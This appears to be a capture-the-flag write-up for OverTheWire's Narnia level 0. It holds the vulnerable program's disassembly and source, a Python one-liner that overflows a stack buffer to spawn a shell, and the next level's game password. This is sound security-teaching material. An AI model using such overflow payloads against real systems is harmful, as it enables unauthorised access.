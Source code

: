 Game Site: narnia.labs.overthewire.org  

# Level 0

User: narnia0  
Pass: narnia0  

## Disassembly ##

    080484c4 <main>:
     80484c4:       55                      push   %ebp
     80484c5:       89 e5                   mov    %esp,%ebp
     80484c7:       83 e4 f0                and    $0xfffffff0,%esp
     80484ca:       83 ec 30                sub    $0x30,%esp
     80484cd:       c7 44 24 2c 41 41 41    movl   $0x41414141,0x2c(%esp)
     80484d4:       41 
     80484d5:       c7 04 24 40 86 04 08    movl   $0x8048640,(%esp)
     80484dc:       e8 cf fe ff ff          call   80483b0 <puts@plt>
     80484e1:       b8 73 86 04 08          mov    $0x8048673,%eax
     80484e6:       89 04 24                mov    %eax,(%esp)
     80484e9:       e8 b2 fe ff ff          call   80483a0 <printf@plt>
     80484ee:       b8 89 86 04 08          mov    $0x8048689,%eax
     80484f3:       8d 54 24 18             lea    0x18(%esp),%edx
     80484f7:       89 54 24 04             mov    %edx,0x4(%esp)
     80484fb:       89 04 24                mov    %eax,(%esp)
     80484fe:       e8 fd fe ff ff          call   8048400 <__isoc99_scanf@plt>
     8048503:       b8 8e 86 04 08          mov    $0x804868e,%eax
     8048508:       8d 54 24 18             lea    0x18(%esp),%edx
     804850c:       89 54 24 04             mov    %edx,0x4(%esp)
     8048510:       89 04 24                mov    %eax,(%esp)
     8048513:       e8 88 fe ff ff          call   80483a0 <printf@plt>
     8048518:       b8 97 86 04 08          mov    $0x8048697,%eax
     804851d:       8b 54 24 2c             mov    0x2c(%esp),%edx
     8048521:       89 54 24 04             mov    %edx,0x4(%esp)
     8048525:       89 04 24                mov    %eax,(%esp)
     8048528:       e8 73 fe ff ff          call   80483a0 <printf@plt>
     804852d:       81 7c 24 2c ef be ad    cmpl   $0xdeadbeef,0x2c(%esp)
     8048534:       de 
     8048535:       75 13                   jne    804854a <main+0x86>
     8048537:       c7 04 24 a4 86 04 08    movl   $0x80486a4,(%esp)
     804853e:       e8 7d fe ff ff          call   80483c0 <system@plt>
     8048543:       b8 00 00 00 00          mov    $0x0,%eax
     8048548:       c9                      leave  
     8048549:       c3                      ret    
     804854a:       c7 04 24 ac 86 04 08    movl   $0x80486ac,(%esp)
     8048551:       e8 5a fe ff ff          call   80483b0 <puts@plt>
     8048556:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
     804855d:       e8 7e fe ff ff          call   80483e0 <exit@plt>

## Source Code ##

    /*
        This program is free software; you can redistribute it and/or modify
        it under the terms of the GNU General Public License as published by
        the Free Software Foundation; either version 2 of the License, or
        (at your option) any later version.

        This program is distributed in the hope that it will be useful,
        but WITHOUT ANY WARRANTY; without even the implied warranty of
        MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
        GNU General Public License for more details.

        You should have received a copy of the GNU General Public License
        along with this program; if not, write to the Free Software
        Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
    */
    #include <stdio.h>
    #include <stdlib.h>

    int main(){
      long val=0x41414141;
      char buf[20];

      printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
      printf("Here is your chance: ");
      scanf("%24s",&buf);

      printf("buf: %s\n",buf);
      printf("val: 0x%08x\n",val);

      if(val==0xdeadbeef)
        system("/bin/sh");
      else {
        printf("WAY OFF!!!!\n");
        exit(1);
      }

      return 0;
    }

## Notes ##

Upon first seeing this level I started with disassembling the code to try and identify what type of vulnerability 
we're dealing with (yes, I know the source code was given too).  At offset `0x080484cd` we see that our target 
value of `0x41414141` is saved on the stack at offset `0x2c`.  Then at `0x080484f3` we see the address of our 
buffer (stored on the stack at offset `0x18`) is loaded into `%edx` which is then passed to a `scaf()` call.  A 
quick bit of math, `0x2c - 0x18`, tells us that the buffer used to store our input is 20 bytes and we also know 
that our target is stored just above our buffer.  Intuition tells us that this is a stack buffer overflow.

Running the program with the a test string of 20 A's followed by 4 B's shows that we can in fact overwrite 
the target variable.

    narnia0@melinda:/narnia$ ./narnia0  
    Correct val's value from 0x41414141 -> 0xdeadbeef!
    Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
    buf: AAAAAAAAAAAAAAAAAAAABBBB
    val: 0x42424242
    WAY OFF!!!!
    narnia0@melinda:/narnia$

Now we just need to get the desired value of `0xdeadbeef` in there.  I don't know why, but initially I thought it 
would be just a matter of escaping the bytes as I typed them in, like so:

    narnia0@melinda:/narnia$ ./narnia0
    Correct val's value from 0x41414141 -> 0xdeadbeef!
    Here is your chance: AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde
    buf: AAAAAAAAAAAAAAAAAAAA\xef
    val: 0x6665785c
    WAY OFF!!!!
    narnia0@melinda:/narnia$

As you can see, this is clearly not the case.  This does not work because the `%s` format string used in `scanf()` 
interprets each character typed as a single byte, there is no interpretation of the string done.  Once I realized 
this it was a matter of constructing our string outside of the program and passing it in.  We can do this with 
Python like so:

    narnia0@melinda:/narnia$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0 
    Correct val's value from 0x41414141 -> 0xdeadbeef!
    Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
    val: 0xdeadbeef
    narnia0@melinda:/narnia$

Fantastic! We set the value, but where's our promised shell? Running our code again with `ltrace` we see that 
the shell is closed immediately.

    narnia0@melinda:/narnia$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ltrace ./narnia0 
    __libc_start_main(0x80484c4, 1, -10268, 0x8048570, 0x80485e0 <unfinished ...>
    puts("Correct val's value from 0x41414"...Correct val's value from 0x41414141 -> 0xdeadbeef!
    )                                                                                         = 51
    printf("Here is your chance: ")                                                                                                     = 21
    __isoc99_scanf(0x8048689, -10456, 0x8049ff4, 0x8048591, -1)                                                                         = 1
    printf("buf: %s\n", "AAAAAAAAAAAAAAAAAAAA\357\276\255\336"Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
    )                                                                         = 30
    printf("val: 0x%08x\n", 0xdeadbeefval: 0xdeadbeef
    )                                                                                                 = 16
    system("/bin/sh" <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                              = 0
    +++ exited (status 0) +++
    narnia0@melinda:/narnia$

In order to keep our shell open we need to also pass in something that will force the shell to wait for us.  After 
a bit of playing around it seems that `cat` is our way in.

    narnia0@melinda:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
    Correct val's value from 0x41414141 -> 0xdeadbeef!
    Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
    val: 0xdeadbeef
    whoami
    narnia1
    cat /etc/narnia_pass/narnia1
    efeidiedae
    ^C
    narnia0@melinda:/narnia$

And now we have the password to the next level.

## Concepts From This Level ##

- Stack buffer overflow
- Pass input generated from Python
- Use of `cat` to force the shell to wait

# Level 1

User: narnia1  
Pass: efeidiedae  